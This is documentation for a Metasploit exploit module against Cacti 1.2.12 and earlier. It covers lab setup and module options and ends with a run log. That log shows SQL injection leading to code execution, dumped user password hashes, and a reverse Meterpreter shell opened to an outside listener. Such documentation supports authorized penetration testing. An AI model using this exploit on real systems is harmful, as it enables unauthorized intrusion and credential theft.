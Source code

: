 ## Vulnerable Application

This module exploits a SQL injection vulnerability in Cacti 1.2.12 and before.
An admin can exploit the filter variable within `color.php` to pull arbitrary
values as well as conduct stacked queries. With stacked queries, the
`path_php_binary` value is changed within the settings table to a payload,
and an update is called to  execute the payload.

After calling the payload, the value is reset.  This has to be done from
a new login session as any requests with the already logged in cookie
will timeout.

### Install

### Docker

```
git clone https://github.com/scline/docker-cacti.git
cd docker-cacti

rm -rf cacti
git checkout 1.2.11 -- cacti
cp ./docker-compose/cacti_testing.yml ./docker-compose.yml
sudo docker-compose up
```

Navigate to `localhost:80` and login with `admin:admin` and run through the install steps.

### Ubuntu

As of the writing of this module, Ubuntu's 12.04 repo had cacti as
1.2.10, so a simple `apt-get install cacti` will install a vulnerable
version.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/unix/http/cacti_filter_sqli_rce`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get a shell.

## Options

### CREDS

This option will dump usernames and passwords from cacti and database them. Defaults to `true`

## Scenarios

### Cacti 1.2.10 on Ubuntu 20.04

```
[*] Processing cacti.rb for ERB directives.
resource (cacti.rb)> use modules/exploits/unix/http/cacti_filter_sqli_rce
[*] Using configured payload php/meterpreter/reverse_tcp
resource (cacti.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (cacti.rb)> set verbose true
verbose => true
resource (cacti.rb)> set password cacti
password => cacti
resource (cacti.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (cacti.rb)> run
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Grabbing CSRF
[+] CSRF: sid:68e686c74fdfc4c04ed024ac27aba1d4815d5ad7,1621164610
[*] Attempting login
[*] Dumping creds
[+] Username: admin, Password Hash: $2y$10$fz.rRKSZPUMPccWOuCtWiO3csioHb8L7319uKAiMXZez2/HtLSg4q
[+] Username: guest, Password Hash: 43e9a4ab75570f5b
[*] Backing-up path_php_binary value
[+] path_php_binary: /usr/bin/php
[*] Uploading payload
[+] Executing Payload
[*] Sending stage (39282 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49470) at 2021-05-16 07:30:11 -0400
[*] Cleaning up environment
[*] Grabbing CSRF
[+] CSRF: sid:e17aa4e5f4aa6d4c189cea4b7f0539123f4b5439,1621164632
[*] Attempting login
[*] Resetting DB Value

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu2004
OS          : Linux ubuntu2004 5.4.0-31-generic #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020 x86_64
Meterpreter : php/linux
```
